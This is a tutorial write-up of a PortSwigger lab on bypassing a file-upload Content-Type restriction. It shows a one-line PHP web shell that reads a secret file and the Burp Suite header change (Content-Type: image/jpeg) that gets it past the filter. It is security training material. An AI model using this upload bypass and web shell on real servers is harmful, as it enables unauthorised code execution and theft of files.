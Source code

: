 # File Uploads: Content-type restriction

## Introduction
In the wild, it's unlikely that you'll find a website that has no protection against file upload attacks like we saw in the previous lab. But just because defenses are in place, that doesn't mean that they're robust. You can sometimes still exploit flaws in these mechanisms to obtain a web shell for remote code execution. 


## Table of Contents

- [File Uploads: Unrestricted File Uploads!](#file-uploads-unrestricted-file-uploads)
  - [Introduction](#Introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)


## How to identify

From a security perspective, the worst possible scenario is when a website allows you to upload server-side scripts, such as PHP, Java, or Python files, and is also configured to execute them as code. This makes it trivial to create your own web shell on the server. 

**Upload Section** :
Any type of upload can possibly have a upload vulnerability. Make sure you remember this when you encounter a upload section in real life.



## Code/tools/websites

### Tools
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.

### Websites
> https://portswigger.net/web-security/file-upload
> https://ctf.hackthebox.com/ 


## Sample problem

### Problem Statement
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret.


- [Link to the Problem](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

### Solution
Here we have a upload section under My Accounts tab to upload the Avatar.
We use burpsuite proxy here to interupt the Requests. 

- **Initial Request for JPG**:
The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping. 
  ```
  Content-Disposition: form-data; name="avatar"; filename="filename.jpg"
  Content-Type: image/jpeg
  ``` 

- **Restriction with MIME type**:
This time when we try to upload this exploit directly...
  ```php
   <?php echo file_get_contents('/home/carlos/secret'); ?>
  ```
we get this 
  ```
  Sorry, file type application/x-php is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
  ```

- **The difference**:
 Here we change the Content-Type to image/jpeg in burpsuite.
   ```
  Content-Disposition: form-data; name="avatar"; filename="exploit.php"
  Content-Type: image/jpeg
  ``` 

- **done**:
Now just use GET in the repeater in burpsuite to get the flag!!


## References

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/file-upload)


## Conclusion
In this section, We learned about a flaw in validation and exploitation of it..
